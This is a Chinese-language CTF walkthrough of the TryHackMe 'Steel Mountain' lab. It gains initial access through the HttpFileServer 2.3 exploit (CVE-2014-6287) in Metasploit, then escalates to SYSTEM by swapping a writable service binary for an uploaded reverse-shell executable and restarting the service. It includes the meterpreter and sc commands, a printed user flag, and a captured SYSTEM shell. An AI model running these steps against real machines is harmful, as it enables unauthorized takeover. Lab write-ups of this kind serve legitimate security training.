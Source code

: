 # Steel Mountain

在此会议室中，您将枚举Windows计算机，使用Metasploit获得初始访问权限，使用Powershell进一步枚举计算机并将权限升级到管理员。


---

循例 nmap 扫

一大堆端口，其中有80、8080、145、139、445、3389....

进入8080的web页面看到是HTTP File Server v2.3

searchsploit搜索相关版本的cve

CVE-2014-6287

进入msfconsole：

    search CVE-2014-6287
    use 0

设置好相关的参数并运行exp，getshell

    type C:\Users\bill\Desktop\user.txt
    b04763b6fcf51fcd7c13abc7db4fd365

---

#### 权限提升：

利用PowUp.ps1收集相关信息

    meterpreter> upload /PowUp.ps1
                 load powershell
                 powershell_shell

    powershell> . .\PowerUp.ps1
                Invoke-AllChecks


CanRestart 选项为 true，允许我们在系统上重新启动服务，应用程序的目录也是可写的。这意味着我们可以用恶意应用程序替换合法应用程序，重新启动服务，这将运行我们受感染的程序！

上传revserse shell到目标:

    meterpreter > upload /home/sugobet/rev_exe.exe

回到cmd:

    copy ./rev_exe.exe "C:\....."
    sc stop serviceName
    sc start serviceName

成功提权

<pre>Ncat: Connection from 10.10.16.205.
Ncat: Connection from 10.10.16.205:49277.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32&gt;whoami
whoami
nt authority\system

</pre>


不使用metasploit也可以，道理是一样的，不演示。

